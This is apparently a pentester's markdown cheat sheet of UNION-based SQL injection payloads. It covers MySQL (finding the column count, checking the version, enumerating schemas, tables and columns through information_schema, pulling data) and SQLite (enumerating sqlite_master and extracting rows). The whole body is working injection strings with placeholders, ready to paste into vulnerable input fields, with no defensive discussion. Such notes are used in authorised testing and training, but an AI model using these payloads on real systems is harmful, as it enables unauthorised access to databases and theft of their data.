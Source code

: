 ## MySQL

- Extract column length

  - `'union select 1,2,3#`

- Confirming injection visible

  - `'union select @@version,2,3#`

- Extract database names

  - `'union select group_concat(0x7c,schema_name,0x7c),2,3 from information_schema.schemata#`

- Extract table neams from database

  - `'union select group_concat(0x7c,table_name,0x7c),2,3 from information_schema.tables where table_schema='<DATABASE_NAME>'#`

- Extract column names from table name

  - `'union select group_concat(0x7c,column_name,0x7c),2,3 from information_schema.columns where table_name='<TABLE_NAME>'#`

- Extract data

  - `'union select <COLUMN_NAME>,'b','c' from <DATABASE_NAME>.<TABLE_NAME> where id='1'#`

## SQLite

- Extract table names 

  - `1' union select name from sqlite_master where type='table'--`
  
- Extract column names from table name
  
  - `1' union select sql from sqlite_master where type='table' and name='<table_name>'--`

- Extract data using column and table name

  - `1' union select <column_name> from <table_name> where id=1--`
